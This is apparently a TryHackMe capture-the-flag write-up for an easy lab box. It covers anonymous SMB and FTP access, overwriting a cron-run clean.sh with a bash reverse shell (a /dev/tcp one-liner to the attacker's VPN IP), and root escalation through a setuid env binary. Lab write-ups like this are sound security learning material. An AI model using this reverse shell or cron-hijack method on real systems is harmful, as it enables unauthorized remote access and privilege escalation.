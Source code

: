 Easy Tryhackme Box

## Recon

I did an nmap scan on the box that revealed 4 open ports.

But the ftp port had anonymous login enabled which was very easy to exploit.
And the rest were ok.

## Enumeration

I tried enumerating for shares on the ports 139, 445 for smb shares.

`smbclient -L //HOST-IP/ -N`

This gives me shares with the names of `pics`. 

Logging into them as user and downloading those pictures thinking it might have some steg involved ended up as a rabbit hole.

So I logged into the ftp on port 21 under creds : `anonymous:anonymous`

## Exploit

There are 3 files in the ftp server. one of them is just a to_do.txt and irrelevant.

There is a `clean.sh` and a `removed_files.log` file.

Looking at the `clean.sh` file, it seems it checks if any files are present in the tmp folder and logs them into `removed_files.log` file.

So this must be a cronjob type script that executes itself after a certain time interval.

So I changed the script to a bash reverse shell using `!nano` command and started a listener on my local machine.

`bash -i >& /dev/tcp/VPN-IP/9999 0>&1`

And so after some time, we get a shell as the user `namelessone`.

## Priv Esc

I used the `find` command to find any setuids that I can use for priv esc.

I found the setuid `/usr/bin/env`.

Using the command from gtfobins for [env](https://gtfobins.github.io/gtfobins/env/).

We can get direct root access. Now we can go ahead and read both user and root flags.